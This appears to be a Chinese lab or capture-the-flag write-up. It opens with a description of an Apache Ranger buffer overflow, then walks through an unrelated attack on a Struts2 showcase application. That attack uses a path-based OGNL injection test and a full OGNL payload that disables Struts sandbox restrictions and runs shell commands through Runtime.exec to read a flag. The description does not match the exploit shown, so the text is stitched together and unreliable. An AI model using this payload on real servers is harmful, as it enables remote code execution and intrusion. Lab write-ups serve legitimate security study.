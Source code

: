 ### 漏洞描述
Apache Ranger 是美国阿帕奇（Apache）软件基金会的一套为 Hadoop集群实现全面安全措施的架构，它针对授权、结算和数据保护等核心企业安全要求，提供中央安全政策管理。Unix Authentication Service 是其中的一个身份验证服务组件。
Apache Ranger 1.2.0 之前版本中的 Unix Authentication Service 存在基于栈的缓冲区溢出漏洞，该漏洞源于程序没有正确的执行边界检查。远程攻击者可通过发送特制的请求利用该漏洞在系统上执行任意代码。

### writeup 

访问靶机地址 http://靶机IP/struts2-showcase/

![](./20200509092307.png)

构造如下参数的访问URL 
```
http://靶机IP/struts2-showcase/$%7B233*233%7D/actionChain1.action
```
利用BurpSuite抓包并改包，Go得到下图所示结果，说明存在漏洞。可以看到，233X233的结果已经在Location头中返回。 
![](./20200509092438.png)



构造poc代码
```
/struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B'struts.valueStack'%5D.context).(%23cr%3D%23ct%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec('ls%20/tmp')).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action
```
替换掉请求内容

![](./20200509092636.png)

成功获取到flag文件

